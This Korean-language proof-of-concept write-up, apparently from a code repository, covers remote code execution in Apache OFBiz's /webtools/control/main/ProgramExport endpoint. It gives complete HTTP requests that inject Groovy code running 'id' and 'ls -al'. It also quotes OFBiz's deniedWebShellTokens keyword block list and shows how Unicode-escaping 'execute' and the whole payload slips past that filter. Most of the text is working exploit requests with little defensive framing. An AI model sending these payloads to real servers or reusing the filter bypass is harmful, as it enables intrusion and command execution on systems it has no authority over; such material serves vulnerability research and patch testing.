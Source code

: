 Groovy 스크립트에서 'id' 명령을 실행하기 위해 다음 요청을 보냅니다:

### id 명령 POC

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](1.png)

Apache Ofbiz는 다음 키워드의 사용을 제한하지만, 유니코드 문자인 '\\u0065xecute'를 사용하면 이 제한을 피할 수 있습니다.

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```

### ls -al 명령 POC
groovyProgram 파라미터에 임의 명령어 (ls-al)을 실행시키는 내용을 유니코드 Escape로 인코딩해 요청을 보내면 RCE가 발생함을 확인할 수 있다.

명령어 (ls -al)
```
grovyProgram=throw new Exception('ls -al'.execute().text);
\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u006C\u0073\u0020\u002D\u0061\u006C\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```
